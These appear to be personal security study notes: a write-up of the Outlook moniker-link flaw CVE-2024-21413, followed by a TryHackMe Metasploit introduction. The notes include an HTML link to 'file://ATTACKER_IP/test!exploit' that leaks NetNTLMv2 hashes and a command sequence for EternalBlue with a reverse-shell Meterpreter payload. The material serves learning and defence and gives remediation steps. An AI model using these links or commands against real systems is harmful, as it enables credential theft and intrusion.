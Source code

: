 # Exploitation Basics

## Moniker
A **moniker** in Windows is a COM (Component Object Model) object reference that allows applications to dynamically locate and bind to other objects.  
- Acts like a pointer or "name" for COM objects.  
- Used in technologies such as **OLE (Object Linking and Embedding)**, **ActiveX**, and scripting environments.  
- Attackers can abuse monikers to execute arbitrary code when a document (e.g., a Word file) is opened.

---

## Link
Links in documents (like **OLE objects** or **embedded hyperlinks**) can be exploited:  
- Malicious documents may include links that, when clicked, automatically execute commands.  
- Outlook can render emails as HTML and parse links such as `http://` and `https://`.  
- It can also handle `file://` **Moniker Links**, which can point to files or resources on remote systems.  
- Normally, Outlook’s **Protected View** prompts users before opening external applications, blocking malicious actions.  

**Example of a basic Moniker Link:**
```html
<a href="file://ATTACKER_IP/test">Click me</a>
```

By modifying the link to include the `!` character, attackers can bypass Outlook’s Protected View:
```html
<a href="file://ATTACKER_IP/test!exploit">Click me</a>
```
Even if the share does not exist, Outlook will attempt an SMB authentication, leaking the victim’s **Windows NetNTLMv2 hash**.

---

## CVE-2024-21413 (Moniker Link)
- **Discovered by:** Haifei Li, Check Point Research  
- **Announced:** February 13th, 2024  
- **Type:** Remote Code Execution (RCE) & NTLM Credential Leak  

### Description
This vulnerability allows attackers to bypass Outlook’s security mechanisms when handling **Moniker Links**.  
When exploited, Outlook may send NTLM credentials to an attacker-controlled server, even if the malicious link is clicked in **Protected View**.

### Impact
- Theft of **NTLM hashes** and user credentials.  
- Potential for **remote code execution** due to COM object abuse.  
- Increased risk of **phishing and lateral movement** in corporate environments.  

### Proof of Concept (PoC) Overview
> **Note:** This is a high-level summary of the PoC; not executable instructions.

- Attacker crafts an email with a malicious Moniker Link.  
- Victim opens or previews the email in Outlook.  
- Outlook attempts to load a file via `file://` using SMB.  
- This triggers an **authentication attempt**, leaking the victim’s **NetNTLMv2 hash**.  
- An attacker could capture and attempt to crack these hashes with tools like *Responder* or *Impacket*.  

---

## Remediation
Microsoft released official patches for this vulnerability in **February 2024 Patch Tuesday**.  
Recommended actions:
- Apply the latest **Microsoft security updates** via Windows Update or the [Microsoft Update Catalog](https://www.catalog.update.microsoft.com/).  
- Disable automatic link preview in Outlook where possible.  
- Block outbound **SMB traffic** at the firewall, if feasible.  
- Educate users not to click unknown or suspicious links in emails.  
- Encourage reporting of suspicious emails to the security team.  

---

## References
- [Microsoft Security Response – CVE-2024-21413](https://msrc.microsoft.com/)  
- [Check Point Research – Haifei Li’s Discovery](https://research.checkpoint.com/)

# TryHackMe: Metasploit Introduction

**Completion Date:** September 11, 2025  
**Platform:** [TryHackMe](https://tryhackme.com/)  
**Room:** Metasploit: Introduction  

---

## Overview
Metasploit is the most widely used exploitation framework. It is a powerful tool that can support all phases of a penetration testing engagement, from information gathering to post-exploitation.

---

## Versions
- **Metasploit Pro**: Commercial version with a GUI, focused on automation and management.  
- **Metasploit Framework**: Open-source command-line version. Most commonly used in penetration testing distributions.

---

## Components of Metasploit
- **msfconsole** – the main CLI interface  
- **Modules** – includes exploits, scanners, payloads, etc.  
- **Tools** – e.g., `msfvenom`, `pattern_create`, `pattern_offset`  

### Module Types
- **Auxiliary** – scanners, crawlers, fuzzers  
- **Encoders** – obfuscate payloads to bypass AV  
- **Evasion** – modules to evade antivirus  
- **Exploits** – organized by OS and application type  
- **NOPs** – No Operation instructions, used for buffer consistency  
- **Payloads** – code executed on target systems (singles, stagers, stages, adapters)  
- **Post** – post-exploitation modules

---

## Key Concepts
- **Exploit**: Code leveraging a vulnerability  
- **Vulnerability**: Weakness in design, code, or logic  
- **Payload**: Malicious code executed on the target (e.g., reverse shells, Meterpreter)

---

## msfconsole
- Start with `msfconsole`  
- Context-sensitive: parameters reset unless set globally  
- Key commands:  
  - `use <module>` – load module  
  - `show options` – list module parameters  
  - `set/unset` – set or clear options  
  - `setg/unsetg` – set/unset global options  
  - `info` – detailed module information  
  - `search <term>` – search modules  
  - `exploit` or `run` – execute module  
  - `back` – exit module context  
  - `sessions` – manage active sessions  
  - `sessions -i <id>` – interact with session  

---

## Example Exploit: EternalBlue (MS17-010)
- **Exploit Path:** `exploit/windows/smb/ms17_010_eternalblue`  
- Steps:  
  1. `use exploit/windows/smb/ms17_010_eternalblue`  
  2. `set RHOSTS <target-ip>`  
  3. `set PAYLOAD windows/x64/meterpreter/reverse_tcp`  
  4. `set LHOST <your-ip>`  
  5. `exploit`  

Result: Spawns a Meterpreter session on the target.

---

## Sessions
- **Background session**: `background` or `CTRL+Z`  
- **List sessions**: `sessions`  
- **Interact with session**: `sessions -i <id>`  

---

## Summary
Metasploit simplifies the exploitation process into three steps:  
1. Find an exploit  
2. Configure/customize exploit  
3. Launch and gain access  

It provides a comprehensive toolkit for penetration testers and researchers, from scanning to post-exploitation.  

---
